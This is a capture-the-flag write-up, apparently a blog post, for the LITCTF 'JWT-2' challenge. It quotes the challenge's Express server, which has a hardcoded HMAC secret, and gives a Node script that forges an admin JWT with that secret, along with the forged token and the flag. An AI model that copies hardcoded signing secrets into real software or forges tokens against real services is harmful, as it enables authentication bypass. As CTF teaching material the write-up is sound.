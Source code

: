 ```yaml
---
layout: post
title:  "JWT-2"
description: Further exploiting JSON Web Tokens
date:   2024-08-14
tags: ["Web Exploitation", "LITCTF", "JSON", "Easy"]
category: [CTF,LITCTF]
---
```




# Challenge Info
`its like jwt-1 but this one is harder.
URL: http://litctf.org:31777/`

attached: [index.ts](https://drive.google.com/uc?export=download&id=18gNp6DphcZBI5UmGjKsXhCkZvF1aIB6F&name=index.ts)

![JWT-2](/assets/img/JWT-2/challenge.png)


## Preface
While this *is* a separate challenge, its fundamentals are heavily derived from the [first](/posts/jwt1) JWT challenge, which I heavily recommend you read first.


## Trying the first solution
Since this is a continuation of the **first** JWT challenge, I figured I'd try the same solution. A quick recap on how I beat the first one:

1. Register an account on the given site
2. Use Burpsuite intercept to capture the JWT associated with our account
3. Use [jwt.io](https://jwt.io) to read the contents of our JWT
4. Modify `admin` so that it equals to `true`
5. Access the "GET FLAG" button with our **new** JWT and acquire flag

For this challenge, while I **was** able to capture the JWT token and modify it to have `admin` set to `true`, upon actually using it, I was greeted with this:

![unauthorized](/assets/img/JWT-2/unauthorized.png)

## Inspecting the attached TypeScript file
By now, I realized this challenge wouldn't be as simple as the last one, so I decided to skim through the attached TypeScript file, which I'll leave down below:

```ts
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payload, signature] = token.split(".");
    if (!header || !payload || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payload
    const decodedPayload = Buffer.from(payload, "base64").toString();
    // parse payload
```
Just to highlight what this code does:

`const [header, payload, signature] = token.split(".");`
- splits the JWT token into its three parts; header, payload, and signature, and the `.` acts as a delimiter.

`if (!req.cookies.token)`
- checks if the token is missing, and responds with `403 Unauthorized` if it is.

`Buffer.from(header,"base64").toString()` `Buffer.from(payload,"base64").toString()`
- The header and payload are decoded from base64 to their original string format.


However, what's really making us hit our head is the following:
```js
const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;
```

This removes the `=` characters from both the base64-encoded payload and signature. This is normal in JWTs though, and doesn't affect the token's validity. The main issue here isn't the removal of padding, but making sure that the token **we** craft adheres to this format.

## Solution

The payload that I came up with:

```js

const crypto = require('crypto');

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
  const signature = crypto
    .createHmac("sha256", jwtSecret)
    .update(jwtHeader + "." + jwtPayload)
    .digest("base64")
    .replace(/=/g, "");
  return jwtHeader + "." + jwtPayload + "." + signature;
};

const payload = { name: "your_username", admin: true };
const forgedToken = sign(payload);
console.log(forgedToken); // This is the token you will use.
```

This payload creates a token using the `xook` secret, modifies `admin` to `true`, and removes all padding (`=` characters).

Then, I replaced the old token in Burpsuite intercept with the new one: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoieW91cl91c2VybmFtZSIsImFkbWluIjp0cnVlfQ.xwxnk5ogziOC8xlMNuolHBuQDbefnLA9rATCeS7fS+s`, and hit "forward".

![flag](/assets/img/JWT-2/flag.png)

flag: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`
